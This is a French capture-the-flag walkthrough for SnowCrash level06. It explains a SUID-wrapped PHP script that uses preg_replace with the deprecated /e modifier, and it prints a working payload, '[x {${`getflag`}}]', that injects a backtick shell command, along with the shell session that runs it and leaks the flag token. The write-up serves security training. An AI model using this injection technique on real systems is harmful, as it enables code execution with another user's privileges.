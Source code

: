 # Niveau 06 : Injection de code PHP via le modificateur /e de preg_replace

## Analyse de la vulnérabilité

Après examen des fichiers dans le répertoire personnel de level06, nous trouvons :

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Le binaire `level06` appartient à l'utilisateur `flag06` et a le bit SUID activé, ce qui signifie qu'il s'exécute avec les privilèges de `flag06`.

En regardant `level06.php`, nous avons trouvé :

```php
#!/usr/bin/php
<?php
// Fonction pour remplacer les points par " x " et les @ par " y"
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
// Fonction pour lire un fichier, effectuer des remplacements complexes et retourner le contenu modifié
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
// Récupère les arguments de la ligne de commande, appelle la fonction x et affiche le résultat
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Comprendre le code PHP

Pour ceux qui ne sont pas familiers avec PHP, voici ce que fait ce code :

1.  **Bases de PHP** : PHP est un langage de script côté serveur couramment utilisé pour le développement web. Le code ci-dessus est encapsulé dans des balises `<?php ?>` qui indiquent du code PHP.

2.  **Définitions de fonctions** :

    -   La fonction `y($m)` prend un paramètre chaîne de caractères et remplace les points par " x " et les symboles @ par " y".
    -   La fonction `x($y, $z)` prend deux paramètres (bien que `$z` ne soit jamais utilisé) :
        -   Elle lit le contenu du fichier spécifié par `$y`.
        -   Effectue une série de remplacements de motifs.
        -   Retourne le contenu modifié.

3.  **Exécution principale** : La ligne `$r = x($argv[1], $argv[2]); print $r;` appelle la fonction `x` avec les arguments de la ligne de commande et affiche le résultat.

## Vulnérabilité : preg_replace avec le modificateur /e

La vulnérabilité clé se trouve dans cette ligne :

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Décortiquons cela :

-   `preg_replace()` est une fonction PHP qui recherche des motifs dans des chaînes et les remplace.
-   `/(\[x (.*)\])/e` est une expression régulière :
    -   `\[x ` correspond littéralement à "[x ".
    -   `(.*)` capture tous les caractères entre "[x " et "]".
    -   Le modificateur `/e` est critique - il indique à PHP d'évaluer la chaîne de remplacement comme du code PHP *après* substitution.

Le modificateur `/e` dans `preg_replace` évalue la chaîne de remplacement comme du code PHP, ce qui est une fonctionnalité obsolète et dangereuse permettant l'exécution de code à distance.

## Exploitation

1.  Création d'un fichier avec le contenu suivant :

    ```
    [x {${`getflag`}}]
    ```

2. Lorsque traité par le script PHP, ce code d'exploitation fonctionne comme suit:

   - Notre motif `` [x {${`getflag`}}] `` est détecté par l'expression régulière
   - Le modificateur `/e` amène PHP à évaluer `` y("{${`getflag`}}") `` comme du code
   - La syntaxe `${...}` en PHP est l'interpolation de variables:
      1. Traite `` ${`getflag`} `` 
      2. Exécute la commande `getflag` via les backticks
      3. Remplace l'expression entière par le résultat de la commande
   - Ainsi, `getflag` est exécuté et sa sortie est retournée

3.  Exécution :

    ```bash
    level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/exploit.txt
    level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
    Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
    ```